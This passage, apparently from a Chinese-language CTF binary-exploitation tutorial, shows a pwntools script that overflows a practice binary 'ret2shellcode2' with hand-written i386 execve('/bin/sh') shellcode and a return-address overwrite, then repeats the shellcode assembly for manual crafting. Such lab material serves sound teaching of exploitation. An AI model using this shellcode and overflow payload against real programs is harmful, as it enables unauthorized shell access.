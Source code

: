 ```python
除了使用pwntools自带的shellcode，也可以使用自己定义的shellcode

from pwn import *  # 导入 pwntools 库，专门用于漏洞利用
# 设置上下文信息，指定目标程序的架构和操作系统
context(arch="i386", os="linux")
# 启动目标程序 "./ret2shellcode2"
p = process("./ret2shellcode2")
# 生成自定义Shellcode，
shellcode = asm("""
push 0x68
push 0x732f2f2f
push 0x6e69622f
mov ebx,esp
xor ecx,ecx
xor edx,edx
push 11
pop eax
int 0x80
""")

# 构造 Payload：
# 1. `ljust(112, b'A')` 填充到 112 字节（覆盖缓冲区到返回地址的距离）。
# 2. `p32(0x804a080)` 设置返回地址为 0x804a080，这个地址是写入 Shellcode 的位置。
payload = shellcode.ljust(112, b'A') + p32(0x804a080)
# 发送 Payload 到目标程序的输入
p.sendline(payload)
# 进入交互模式，获取程序交互界面（如 Shell）
p.interactive()
```

![image-20241215165655264](pwn二进制漏洞/image-20241215165655264.png)	

## 手动制作shellcode并测试

```
准备写好shellcode的汇编代码
push 0x68
push 0x732f2f2f
push 0x6e69622f
mov ebx,esp
xor ecx,ecx
xor edx,edx
push 11
pop eax
int 0x80
```
